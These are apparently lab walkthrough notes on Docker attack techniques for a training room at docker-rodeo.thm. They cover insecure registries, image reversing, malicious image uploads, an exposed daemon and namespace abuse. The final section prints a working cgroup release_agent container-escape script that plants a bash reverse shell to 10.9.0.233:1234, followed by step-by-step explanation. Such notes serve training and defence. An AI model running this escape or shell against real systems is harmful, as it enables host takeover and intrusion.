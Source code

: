 # Commands/tools
**1st method: Online insecure docker registry(version)**
--------------------------------------------------------

`/etc/docker/daemon.json`

```text-plain
	{
  	"insecure-registries" : ["docker-rodeo.thm:5000","docker-rodeo.thm:7000"]
	}
```

These files contain commands such as `RUN` and `COPY` that will be executed by the container. `RUN` commands will execute system commands such as `apt-get` or `ls /home/`

```text-plain
docker pull rustscan/rustscan:1.8.0(or latest)
```

The Docker Registry is a JSON endpoint, so we cannot just simply interact with it like we would a normal website - we will have to query it. Whilst this can be done via the terminal or browser, dedicated tools such as [Postman](https://www.postman.com/downloads/)or [Insomnia](https://insomnia.rest/download/) are much better suited for the job.

[`http://docker-rodeo.thm:5000/v2/**cmnatic/myapp1**/manifests/**notsecure**`](http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/notsecure)

**2nd method: Reversing image with DIVE**
-----------------------------------------

`dive <Docker Image ID`

We have four different views, we are only interested in these three views:

**4.5.1**. Layers (pictured in red)

**4.5.1.1.** This window shows the various layers and stages the docker container has gone through

**4.6**.**1.** Current Layer Contents (pictured in green)

**4.6.1.1.** This window shows you the contents of the container's filesystem at the selected layer

**4.7.1.** Layer Details (pictured in red)

**4.7.1.1.** Shows miscellaneous information such as the ID of the layer and any command executed in the Dockerfile for that layer.

![](Commandstools/using-dive2.png)

**3rd Method: Upload Malicious docker images**
----------------------------------------------

we can upload (or `push`) our own images to a repository, containing malicious code. 

When a `docker pull` or `docker run` command is issued, Docker will first try to find a copy of the image (i.e. **cmnatic/myapp1**) on the host and then proceed to check if there have been any changes made on the Docker registry it was _pulled_ from. If there are changes, Docker will download the updated image onto the host and then proceed to execute.

![](Commandstools/image.png)

We compile this into an image with `docker build` . Once compiled and added to the vulnerable registry, we set up a listener on our attacker machine and wait for the new image to be executed by the target.

**4th & 5th Method: RCE/Escape via exposed docker daemon**
----------------------------------------------------------

a UNIX socket accomplishes the same job as it's networking sibling - moving data, albeit all within the host itself by using the filesystem rather than networking interfaces/adapters

```text-plain
docker -H tcp://10.10.46.192:2375 ps
docker -H tcp://<IP>:<PORT> exec <CONTAINER ID(obtained with ps> <local command such as ls>
```

**6th Method: Shared namespaces**
---------------------------------

Put simply, the process with an ID of 0 is the process that is started when the system boots. Processes numbers increment and must be started by another process, so naturally, the next process ID will be #1. This process is the systems `init` , for example, the latest versions of Ubuntu use `systemd`. Any other process that runs will be controlled by `systemd` (process #1).

We can use process #1's namespace on an operating system to escalate our privileges. Whilst containers are designed to use these namespaces to isolate from another, they can instead, coincide with the host computers processes, rather than isolated from...this gives us a nice opportunity to escape!

We can confirm that the container we're connected to in namespaces of the host by using `ps aux`. Remember how we were only expecting a couple of entries? Now we can see the whole systems process...

We'll be invoking the [nsenter](https://man7.org/linux/man-pages/man1/nsenter.1.html) command. To summarise, this command allows you to execute start processes and place them within the same namespace as another process. 

**7th Method: Misconfigured privileges**
----------------------------------------

Containers running in "user" mode interact with the operating system through the Docker engine. Privileged containers, however, do not do this...instead, they bypass the Docker engine and have direct communication with the operating system.

We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print` . I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode.

![](Commandstools/listcap2.png)

sys\_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.) where they detail the inner-workings to this exploit well.

```text-plain
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release

host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo 'bash -c "bash -i >& /dev/tcp/10.9.0.233/1234 0>&1"' >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

**1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "_/tmp/cgrp_" on the container.

**2**. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "_/tmp/cgrp/x/notify\_on\_release_", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)

**3\.** We find out where the containers files are stored on the host and store it as a variable

**4.** Where we then echo the location of the containers files into our "_/exploit_" and then ultimately to the "release\_agent" which is what will be executed by the "cgroup" once it is released.

**5.** Let's turn our exploit into a shell on the host

**6.** Execute a command to echo the host flag into a file named "flag.txt" in the container, once "_/exploit_" is executed

**7.** Make our exploit executable!

**8.** We create a process and store that into "_/tmp/cgrp/x/cgroup.procs_"